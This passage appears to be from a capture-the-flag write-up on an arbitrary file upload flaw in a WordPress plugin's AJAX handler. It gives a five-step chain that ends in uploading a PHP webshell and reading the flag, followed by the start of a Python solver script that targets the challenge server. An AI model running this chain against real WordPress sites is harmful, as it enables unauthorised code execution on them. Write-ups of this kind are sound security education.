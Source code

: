 ```php
        } else {
            $return_value['file_status'] = "fail";
        }

        $return_value = array();

        $return_value['message'] = 'success';

        $return_value['file_url'] = $uploaded_file['file'];

        echo json_encode($return_value);

        die();
    }
```

From the code above, Arbitrary File Upload can be done by simply filling in the "async-upload" parameter with the malicious file and there is no need to enter the second IF Condition which requires the "chunk" parameter.
Also, since the "wp_handle_upload" process doesn't have a storage location defined, by default the upload file will be stored in "/wp-content/uploads/[year]/[month]/filename.extensions.
Okay, from the analysis of the source code above, it can be concluded that the flow of exploitation is as follows.

1. Register user using the action hook wp_ajax_nopriv_register_user
2. Log in with the user that has been created
3. Upload a PHP file containing a webshell using the action hook wp_ajax_wpie_upload_csv_file
4. Access the webshell file at /wp-content/uploads/2025/06/filename.extensions
5. Read flag di filesystem

**Exploit:**\
File solver.py:

```python
import requests
import os
import sys
import re

import requests
import io
from urllib.parse import *

URL = 'http://18.140.17.89:9130/'

class Exploit:
    def __init__(self, username, email, password, url=URL):
        self.url = url
        self.session = requests.session()
        self.username = username
        self.email = email
        self.password = password

    def register(self):
        print('[+] Register User')
        data = {'action':'register_user', 'username': self.username, 'email': self.email, 'password': self.password}
        req = requests.post(urljoin(self.url, '/wp-admin/admin-ajax.php'), data=data)

        return req.text

    def login(self):
        print('[+] Login to Wordpress')
        headers = {'Cookie':'wordpress_test_cookie=WP Cookie check'}
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn
